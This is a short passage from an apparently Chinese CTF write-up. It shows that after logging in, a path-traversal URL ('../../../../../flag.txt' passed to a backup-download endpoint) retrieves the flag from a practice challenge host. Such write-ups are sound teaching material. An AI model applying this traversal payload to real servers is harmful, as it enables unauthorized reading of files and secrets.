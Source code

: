 ![image-20230130150836127](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301301508204.png)

登录后下载 flag.txt

```
http://1bfe4913-52da-4571-aa59-3bca4bf51d44.node4.buuoj.cn:81/manage/backup/downloadBak?file=../../../../../flag.txt
```

## [红明谷CTF 2021]JavaWeb

